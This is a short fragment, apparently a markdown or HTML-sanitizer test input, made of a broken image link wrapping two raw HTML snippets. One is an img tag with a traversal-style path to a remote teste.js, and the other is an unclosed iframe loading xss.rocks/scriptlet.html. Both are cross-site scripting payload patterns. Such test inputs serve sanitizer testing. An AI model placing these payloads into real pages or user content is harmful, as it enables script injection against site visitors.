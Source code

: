 ![

<img SRC=../../../../../../../img/onload/../../\github.com/r89shi/r89shi.github.io/blob/master/teste.js?>

<iframe src=http://xss.rocks/scriptlet.html <


](()
